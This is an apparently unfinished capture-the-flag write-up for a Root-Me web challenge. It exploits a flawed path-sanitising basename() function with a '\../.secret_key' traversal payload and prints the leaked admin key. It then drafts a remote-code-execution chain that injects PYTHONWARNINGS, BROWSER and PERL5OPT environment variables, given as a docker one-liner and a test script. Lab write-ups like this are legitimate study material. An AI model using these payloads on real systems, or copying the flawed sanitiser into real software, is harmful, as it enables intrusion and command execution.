


First, we need to access `/admin`, however it protected by basic HTTP auth.

We can see in `secret.py` that the password for `admin` is stored inside `.secret_key`, and this word isn't in the blacklist, in `app.py`, which includes `.env, proc, flag`

There is this page:
```
http://challenge01.root-me.org:59095/read?file=welcome.txt
```

As we can see in `download.py`, it tries to block `Path traversal` that'll let us get `LFI`.

```python
def basename(filename):
    """
    Return the basename of a file, working on Windows / Linux
    """
    safe_filename = filename

    if not filename:
        return ""

    if '/' in filename:
        # Prevent linux path traversal
        safe_filename = filename[filename.rindex('/') + 1:]

    if '\\' in filename:
        # Prevent windows path traversal
        safe_filename = filename[filename.rindex('\\') + 1:]

    return safe_filename
```

However, this check is exploitable, if we give something like:
```
\../welcome.txt
```
After the first `if`, `safe_filename='welcome.txt'`.
But, after the second `if`, `safe_filename='../welcome.txt'`.
I think the error it's that in the second if, he should have use this line:
```python
safe_filename = safe_filename[safe_filename.rindex('\\') + 1:]
```

However, we can exploit it to get `.secret_key`, using this payload:
```
http://challenge01.root-me.org:59095/read?file=\../.secret_key
```



so, the secret key is: `Vvut3yXMZy2L0unjggquyBGb31fpxTVNq86dk8bB`, and the username: `admin`, let's login to `/admin` portal.

# NOT FINISHED

#### TO EDIT

We can use `CLRF` to inject our own `.env`, need to see how exactly. 
(can change the textbox in the html from `input` to `textarea`, more easier)

Next, we use this: https://www.elttam.com/blog/env/, and also this https://news.ycombinator.com/item?id=28197502.

We want to `import antigravity`, which then opens page on the browser, easter egg from 2008.

We want to override the browser using env variables, and set it to `perl`.
In addition, we need to trigger the `import`, using `PYTHONWARNINGS` env variable.

This payload should work, i need to check why we must `export` the variables before it works.   
```
docker run -e 'PYTHONWARNINGS=all:0:antigravity.x:0:0' -e 'BROWSER=perlthanks' -e 'PERL5OPT=-Mbase;print(`id`);exit;' python:3.8.2 python /dev/null
```

Here testing.py:
```py
import os
import webbrowser
from dotenv import dotenv_values, load_dotenv


os.environ['BROWSER'] = 'perlthanks'
os.environ['PERL5OPT'] = '-Mbase;print(`id`);exit;'
os.environ['PYTHONWARNINGS'] = 'all:0:antigravity.xyz:0:0'

ENVIRON_FILE = '.env'

def test_mail():
    print("Testing mail...")
    os.popen("/usr/local/bin/python ./send_mail.py").read().strip()
    print("Mail test completed.")

# Load .env file
load_dotenv(ENVIRON_FILE)
# print("loaded file")

# Method 1: Using dotenv_values to see what was in the file
# env_values = dotenv_values(ENVIRON_FILE)
# print("Values from dotenv_values():", env_values)

test_mail()
```



Then, we should get `RCE`. 
 
**Flag:** ***`PLACE_HOLDER`***
